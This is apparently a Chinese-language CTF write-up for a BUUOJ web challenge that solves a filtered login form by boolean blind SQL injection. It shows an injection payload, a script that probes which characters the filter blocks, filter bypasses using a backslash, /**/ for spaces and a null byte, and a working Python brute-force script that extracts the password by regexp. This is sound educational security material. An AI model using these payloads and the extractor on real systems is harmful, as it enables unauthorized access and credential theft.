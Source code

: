![[Pasted image 20230120113124.png|500]]

![[Pasted image 20230120113103.png|500]]

![[Pasted image 20230120113230.png|500]]

```
username=admin
passwd=1' or 1=1 or '1
```

![[Pasted image 20230120150739.png|500]]

```python
import requests
import time

url = 'http://xxx.node4.buuoj.cn:81/index.php'
data = {'username' : '1', 'passwd': ''}

for i in range(128):
    data['passwd'] = chr(i)
    if requests.post(url, data=data).text.__contains__('hacker'):
        print('\'{}\''.format(chr(i)))
    time.sleep(0.1)
```

```
' '
'#'
'''
','
'-'
'.'
'<'
'='
'>'
```

由于单引号被过滤，尝试使用`\`对原有的单引号进行转义

由于空格也被过滤，为了维持语法的正确，使用`/**/`作为间隔

`passwd`右边的单引号通过`\0`截断

最终查询像这样

```sql
select * from users where username='\' and passwd='/**/or/**/passwd/**/regexp/**/"<reg>";
```

(好像`or`也被过滤了)

```python
import requests
import time

url = "http://18bd2d66-8fe7-4c4b-add6-b7d365efc8ed.node4.buuoj.cn:81/index.php"
fmt = '/**/||/**/passwd/**/not/**/regexp/**/"{}";\000'

data = {'username': '\\', 'passwd': fmt.format('^a')}
print(requests.post(url, data=data).text)
```

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /welcome.php was not found on this server.</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at 18bd2d66-8fe7-4c4b-add6-b7d365efc8ed.node4.buuoj.cn Port 81</address>
</body></html>
```

如果查询有结果就返回404，没有返回200

```python
import requests
import time
import sys
import string

url = "http://xxx.node4.buuoj.cn:81/index.php"

pass_fmt = '/**/||/**/passwd/**/regexp/**/"^{}";\000'
data = {'username': '\\', 'passwd': ''}
false_func = lambda response : response.status_code == 200

word_list = string.ascii_uppercase + string.ascii_lowercase + string.digits + '_'

res = ''

while True:
    for i in word_list:
        data['passwd'] = pass_fmt.format(res + i)

        time.sleep(0.1)
        response = requests.post(url, data)
        if not false_func(response):
            print(i, end='')
            sys.stdout.flush()
            res += i
            break
```

```
YOU_WILL_NEVER_KNOW7788990
```

转为小写之后拿去登录就拿到了`flag`

![[Pasted image 20230120162247.png|500]]

#Web #SQL注入 #布尔盲注 #绕过